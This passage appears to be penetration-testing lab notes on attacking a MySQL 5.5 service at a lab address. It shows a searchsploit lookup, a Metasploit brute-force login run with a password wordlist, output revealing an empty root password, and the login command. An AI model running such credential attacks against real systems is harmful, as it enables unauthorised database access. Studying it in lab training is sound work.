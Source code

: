 ![](4-exploitationassets/image-20230424122710148.png)

- Search for MySQL exploits

```bash
searchsploit MySQL 5.5
# There are only Privilege Escalation exploits
```

- **Brute-force MySQL**

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 10.2.26.45
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run
```

```bash
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Found remote MySQL version 5.5.20
[!] 10.2.26.45:3306 - No active DB -- Credential data will not be saved!
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Success: 'root:'
```

> 📌 `root` password is empty

```bash
mysql -u root -p -h 10.2.26.45
```
